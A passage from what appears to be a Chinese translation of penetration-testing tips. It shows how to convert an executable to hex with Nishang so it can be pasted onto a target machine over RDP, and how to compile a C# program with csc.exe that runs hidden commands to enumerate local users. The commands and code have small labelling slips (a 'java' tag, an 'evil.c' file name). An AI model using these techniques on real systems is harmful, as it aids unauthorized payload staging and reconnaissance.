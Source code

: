 ## 14 Exe to Txt, and Txt to Exe with PowerShell and Nishang

[http://code.google.com/p/nishang/downloads/list](http://code.google.com/p/nishang/downloads/list)

当需要把一个 exe 文件放到目标计算机上时，这可能是我最喜欢的工具，Nishang 使用 PowerShell 允许你吧一个 exe 转换成 hex，然后吧 hex 再转换成原来的 exe 文件。

把 exe 转成 hex 文件输入：

    PS > .\ExetoText.ps1 evil.exe evil.txt

打开 evil.txt 文件，复制内容，然后通过 RDP 的剪贴板复制进目标计算机。

把 hex 文件还原成 exe 文件输入：

    PS > .\TexttoExe.ps1 evil.text evil.exe

## 15 **Csc.exe to Compile Source from a File**

C 的编译器（CSC）是包含在在 Windows 微软.NET 安装中的命令行编译器。

这个可执行文件的默认位置是以下情况：

    C:\Windows\Microsoft.NET\Framework\version

使用下面的示例代码，编译后的可执行文件将使用的 cmd.exe 来查询本地用户，然后将结果写入一个在 C:\Temp\users.txt 中。可以修改其中的代码，达到自己想要的目的，然后编译成 exe 文件。

```java
public class Evil {
      public static void Main()
      {
         System.Diagnostics.Process process = new System.Diagnostics.Process();
         System.Diagnostics.ProcessStartInfo startInfo = new System.Diagnostics.ProcessStartInfo();
         startInfo.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
         startInfo.FileName = "cmd.exe";
         startInfo.Arguments = "/C net users > C:\\Temp\\users.txt";
         process.StartInfo = startInfo;
         process.Start();
      }
}
```

代码编译命令：

```
csc.exe /out:C:\evil\evil.exe C:\evil\evil.c
```

作者：Hero

原文地址：[https://mp.weixin.qq.com/s/DfdUL5jFzJ8PvylxS6mN-A](https://mp.weixin.qq.com/s/DfdUL5jFzJ8PvylxS6mN-A)

收藏下来以后用，侵删
